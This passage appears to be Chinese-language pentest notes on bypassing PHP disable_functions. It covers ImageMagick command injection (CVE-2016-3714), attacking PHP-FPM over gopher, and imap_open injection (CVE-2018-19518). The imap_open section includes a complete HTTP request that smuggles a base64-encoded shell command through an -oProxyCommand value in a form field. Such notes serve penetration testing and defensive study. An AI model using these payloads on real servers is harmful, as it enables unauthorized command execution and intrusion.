 
## 利用 ImageMagick 绕过

漏洞源于 CVE-2016-3714，ImageMagick 是一款图片处理程序，但当用户传入一张恶意图片时，会造成命令注入，其中还有其他如 ssrf、文件读取等。

- https://github.com/ImageTragick/PoCs

上传恶意的图片,然后上传以一个poc
```php
<?php
new Imagick('poc.jpg');
```

访问即可看到我们写入的文件。

---

## 利用 PHP-FPM 绕过

PHP-FPM(FastCGI Process Manager：FastCGI 进程管理器) 是一个 PHPFastCGI 管理器，对于 PHP 5.3.3 之前的 php 来说，是一个补丁包 ，旨在将 FastCGI 进程管理整合进 PHP 包中。如果你使用的是 PHP5.3.3 之前的 PHP 的话，就必须将它 patch 到你的 PHP 源代码中，在编译安装 PHP 后才可以使用。

Fastcgi 是一种通讯协议，用于Web服务器与后端语言的数据交换。

以攻击 tcp 为例，倘若我们伪造 nginx 发送数据（fastcgi 封装的数据）给 php-fpm，这样就会造成任意代码执行漏洞。

可以配合 gopher 协议来攻击内网的 fpm

---

## 利用 imap_open 绕过(CVE-2018-19518)

imap 扩展用于在 PHP 中执行邮件收发操作，而 imap_open 是一个 imap 扩展的函数，在使用时通常以如下形式：
```php
$imap = imap_open('{'.$_POST['server'].':993/imap/ssl}INBOX', $_POST['login'], $_POST['password']);
```

那么该函数在调用时会调用 rsh 来连接远程 shell，而在 debian/ubuntu 中默认使用 ssh 来代替 rsh 的功能，也即是说在这俩系统中调用的实际上是 ssh，而 ssh 中可以通过 -oProxyCommand= 来调用命令，该选项可以使得我们在连接服务器之前先执行命令，并且需要注意到的是此时并不是 php 解释器在执行该系统命令，其以一个独立的进程去执行了该命令，因此我们也就成功的 bypass disable function 了。

```
POST / HTTP/1.1
Host: your-ip
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 125

hostname=x+-oProxyCommand%3decho%09ZWNobyAnMTIzNDU2Nzg5MCc%2bL3RtcC90ZXN0MDAwMQo%3d|base64%09-d|sh}&username=111&password=222
```
